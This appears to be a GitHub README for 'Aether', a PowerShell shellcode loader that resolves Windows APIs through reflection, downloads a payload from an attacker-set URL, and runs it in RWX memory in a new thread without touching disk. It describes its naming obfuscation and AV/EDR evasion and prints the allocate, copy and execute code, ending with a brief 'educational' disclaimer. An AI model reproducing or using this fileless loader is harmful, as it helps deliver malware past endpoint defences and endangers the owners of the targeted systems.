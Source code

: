 # Aether

Aether is a PowerShell script that demonstrates dynamic API resolution and in-memory payload execution using .NET reflection. It dynamically finds Windows API functions, builds delegates at runtime, downloads a payload, allocates executable memory, and runs the payload in a new thread without ever touching disk.

## What It Does

- Locates Windows API functions like `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject` by searching loaded .NET assemblies instead of static imports.
- Creates delegates on the fly to match API function signatures using reflection emit.
- Downloads a binary payload from a URL, allocates RWX memory, copies the payload, and executes it in a new thread.
- Uses funny variable and function names like `potatoes` and `apples` to make code analysis a bit more entertaining (and less obvious).

## Usage

**Warning:** This script executes arbitrary code in memory and will likely trigger AV/EDR. Only use it in a safe lab environment or with explicit permission.

1. Change the `$url` variable to your payload's direct download link.
2. Run the script in PowerShell. Admin rights may be needed for some payloads.

```powershell
$url = "https://your-server.com/payload.bin"
# ...rest of the script...
```

## How It Works

- **API Lookup:** The `potatoes` function finds the address of Windows API functions using .NET internals.
- **Delegate Generation:** The `apples` function creates the right .NET delegate type at runtime for the API function pointers.
- **Payload Download:** Downloads your binary payload and stores it in a byte array.
- **Memory Allocation:** Uses `VirtualAlloc` to reserve executable memory.
- **Payload Execution:** Copies the payload into memory, spawns a new thread with `CreateThread`, and waits for it to finish.

## Example

```powershell
$virtualAllocPtr = potatoes kernel32.dll VirtualAlloc
$virtualAllocDelegateType = apples @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])
$virtualAllocDelegate = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($virtualAllocPtr, $virtualAllocDelegateType)
$mem = $virtualAllocDelegate.Invoke([IntPtr]::Zero, $buf.Length, 0x3000, 0x40)

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $mem, $buf.Length)

$createThreadPtr = potatoes kernel32.dll CreateThread
$createThreadDelegateType = apples @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr])
$createThreadDelegate = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($createThreadPtr, $createThreadDelegateType)
$thread = $createThreadDelegate.Invoke([IntPtr]::Zero, 0, $mem, [IntPtr]::Zero, 0, [IntPtr]::Zero)

$waitForSingleObjectPtr = potatoes kernel32.dll WaitForSingleObject
$waitForSingleObjectDelegateType = apples @([IntPtr], [Int32]) ([Int32])
$waitForSingleObjectDelegate = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($waitForSingleObjectPtr, $waitForSingleObjectDelegateType)
$waitResult = $waitForSingleObjectDelegate.Invoke($thread, 0xFFFFFFFF)
```

## Credits

- Big thanks to [this excellent article by @luisgerardomoret](https://medium.com/@luisgerardomoret_69654/making-a-powershell-shellcode-downloader-that-evades-defender-without-amsi-bypass-d2cf13f18409) for the original inspiration and technical breakdown.
- For PowerShell obfuscation and more, check out [@KingKDot/PowerCrypt](https://github.com/KingKDot/PowerCrypt).

## License

MIT License

---

**Disclaimer:**  
This code is for educational and research purposes only. Don’t run it anywhere you don’t have permission. The author is not responsible for misuse.
